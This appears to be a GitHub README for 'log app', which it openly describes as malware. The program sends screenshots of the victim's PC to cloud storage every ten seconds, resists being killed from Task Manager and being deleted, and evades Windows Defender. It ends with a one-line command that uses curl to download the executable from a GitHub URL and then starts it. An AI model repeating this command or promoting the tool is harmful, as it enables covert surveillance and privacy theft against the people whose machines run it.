 # log app

The log.exe and log_v1.0.exe is a malware that will send screenshot of your pc every 10secs to a cloud based storage.

The log_v1.0 is an updated version of the original log.exe. This version adds a new feature to the malware, which prevents the user from manually killing the malware from the taskmanager. The victim has to use the terminal to kill the app.

Both versions of the malware can not be killed by simply deleting. Even though the malware might seem deleted the malware will still run and affect your computer.

Windows defender will not block the malware from being installed or stop it while its running.

In order to test the malware in your virtual machine, simply install and run the malware or type the following command in the command prompt `mkdir C:/tempapp; curl -o "C:/tempapp/log.exe" https://github.com/falahabubacker/scripts-apps/blob/main/log_v1.1.exe; START C:/tempapp/log.exe;`
